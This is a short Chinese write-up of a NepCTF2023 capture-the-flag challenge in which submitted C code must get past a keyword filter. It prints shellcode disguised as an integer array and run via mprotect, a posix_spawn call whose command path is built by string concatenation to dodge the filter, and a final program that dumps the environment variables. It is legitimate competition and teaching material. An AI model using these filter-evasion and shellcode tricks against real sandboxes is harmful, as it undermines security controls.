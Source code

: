 NepCTF2023 Code

```c
#include <stdio.h>

int main() {
    char buf[0x8];
    printf("%53$s");
}
```

### 1.初步尝试：shellcode

在得知sys，env，open，read，write都被过滤之后，作为一个pwn手首先想到了就是使用shellcode。发现\x也被过滤，转而写了个可打印字符串的shellcode，然后又发现不如直接用整数冒充shellcode。

```c
#include <stdio.h>
#include <stdlib.h>
int main() {
    // 声明一个函数指针
    void (*func_ptr)();
        long long int values[] = {
        0x006362616858556a,
        0x5e000001ff685f54,
        0x6858016a5f50050f,
        0xe3c1485b766e652f,
        0x03486e69622f6820,
        0x6a5e5453006a241c,
        0x00000000050f5a08
    };
    func_ptr = (void (*)()) values;
    long long int a = values;
    a = a & 0xfffffffff000;
    mprotect(a, 0x1000, 7);
    // 调用函数指针，执行跳转到字符串
   func_ptr();
 
    return 0;
}
```

很帅吧，可惜我没想到出题人这么阴，mprotect也禁了……想尝试写一个/bin/env的sh文件，然后再命令/bin/sh 执行他。也不行捏。

### 2.字符串拼接posix_spawn

可以执行任意命令，但是env命令没有回显，白给。
并且尝试了子进程创建等等方式，无果。

```c
#include <stdio.h>
#include <string.h>
#include <spawn.h>
 
 
int main() {
    pid_t child_pid;
    char path[100] = "/bin/l"; // 初始路径
    strcat(path, "s"); // 
 
    char *const argv[] = { path, "-l","/dev", NULL }; // 命令行参数，包括路径和命令参数
 
    int result = posix_spawn(&child_pid, path, NULL, NULL, argv, NULL);
    if (result == 0) {
        // 等待子进程结束
        waitpid(child_pid, NULL, 0);
    } else {
        // 错误处理
        perror("posix_spawn");
    }
 
    return 0;
}
```

### 3.惊人的答案

打印虚空变量即可。

```c
#include <stdio.h>
 
int main(int argc, char *argv[], char *e[]) {
    for (int i = 0; e[i] != NULL; i++) {
        printf("%s\n", e[i]);
    }
 
    return 0;
}
```

